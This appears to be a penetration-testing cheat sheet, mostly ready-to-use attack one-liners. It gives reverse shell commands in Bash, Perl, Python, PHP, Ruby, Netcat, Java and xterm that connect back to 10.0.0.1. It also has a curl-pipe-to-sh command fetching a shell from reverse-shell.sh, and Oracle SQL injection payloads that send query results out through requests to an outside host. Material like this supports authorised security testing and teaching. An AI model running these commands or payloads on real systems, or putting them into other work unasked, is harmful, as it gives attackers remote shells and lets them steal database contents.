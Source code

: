 ### Reverse Shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
<br># If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
<br># Bash
<br>```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

<br># PERL
<br>```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

<br># Python
<br>```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

<br># PHP
<br>```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

<br># Ruby
<br>```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

<br># Netcat
<br>```nc -e /bin/sh 10.0.0.1 1234```
<br>```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

<br># Java
<br>```r = Runtime.getRuntime()```
<br>```p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])```
<br>```p.waitFor()```

<br># xterm
<br>```xterm -display 10.0.0.1:1```
<br>```Xnest :1```
<br>```xhost +targetip```

https://reverse-shell.sh/
<br># Reverse Shell as a Service
<br>```nc -l 1337```
<br>```curl https://reverse-shell.sh/yourip:1337 | sh```

https://github.com/calebstewart/pwncat
<br># pwncat is a post-exploitation platform for Linux targets.

### <a name="SQLi-Manual"></a>SQLi (SQL Injection)
https://arxiv.org/abs/1303.3047
<br># This paper describes an advanced SQL injection technique where DNS resolution process is exploited for retrieval of malicious SQL query results.

<br># Oracle
<br>```'||(SELECT%20UTL_INADDR.GET_HOST_ADDRESS('xpto.example.com'))||'```
<br>```'||(SELECT%20UTL_HTTP.REQUEST('http://xpto.example.com')%20FROM%20DUAL)||'```
<br>```'||(SELECT%20HTTPURITYPE('http://xpto.example.com').GETCLOB()%20FROM%20DUAL)||'```
<br>```'||(SELECT%20DBMS_LDAP.INIT(('xpto.example.com',80)%20FROM%20DUAL)||'```
